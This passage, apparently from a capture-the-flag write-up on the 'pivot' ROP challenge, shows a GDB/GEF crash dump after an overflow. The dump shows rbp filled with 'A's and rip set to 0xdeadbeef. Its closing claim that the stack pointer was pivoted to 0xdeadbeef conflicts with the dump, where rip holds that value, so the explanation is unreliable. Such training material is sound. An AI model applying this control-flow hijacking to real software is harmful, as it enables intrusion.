 Let's examine the output in GDB below:

```
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x00007ffcafae2190  →  0x00000000004009d0  →  <__libc_csu_init+0> push r15
$rbx   : 0x0               
$rcx   : 0x00007f95a1fd8ff3  →  0x5577fffff0003d48 ("H="?)
$rdx   : 0x0               
$rsp   : 0x00007f95a1ee5f18  →  0x000000000000000a
$rbp   : 0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0x00007f95a20a9723  →  0x0ab670000000000a
$rdi   : 0x00007f95a20ab670  →  0x0000000000000000
$rip   : 0xdeadbeef        
$r8    : 0xb               
$r9    : 0x2               
$r10   : 0x0000000000400b34  →  0x6b6e61685400203e ("> "?)
$r11   : 0x246             
$r12   : 0x0000000000400760  →  <_start+0> xor ebp, ebp
$r13   : 0x0               
$r14   : 0x0               
$r15   : 0x0               
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007f95a1ee5f18│+0x0000: 0x000000000000000a   ← $rsp
0x00007f95a1ee5f20│+0x0008: 0x0000000000000000
0x00007f95a1ee5f28│+0x0010: 0x0000000000000000
0x00007f95a1ee5f30│+0x0018: 0x0000000000000000
0x00007f95a1ee5f38│+0x0020: 0x0000000000000000
0x00007f95a1ee5f40│+0x0028: 0x0000000000000000
0x00007f95a1ee5f48│+0x0030: 0x0000000000000000
0x00007f95a1ee5f50│+0x0038: 0x0000000000000000
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0xdeadbeef
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "pivot", stopped 0xdeadbeef in ?? (), reason: SINGLE STEP
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  
```

Excellent! It looks like we have successfully pivoted the stack poitner to a location (`0xdeadbeef`) where we can place a larger ROP chain!
